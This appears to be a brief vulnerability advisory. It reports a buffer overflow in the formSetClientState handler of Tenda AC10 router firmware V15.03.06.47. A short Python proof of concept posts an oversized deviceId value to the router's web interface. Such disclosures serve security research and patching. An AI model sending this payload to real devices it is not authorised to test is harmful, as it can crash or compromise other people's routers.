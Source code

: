 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetClientState

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](11.png)

get value from deviceId ,and if deviceId and limitEn are not null, get into line 34, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/formSetClientState"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceId': payload, 'limitEn': 1})
``` 
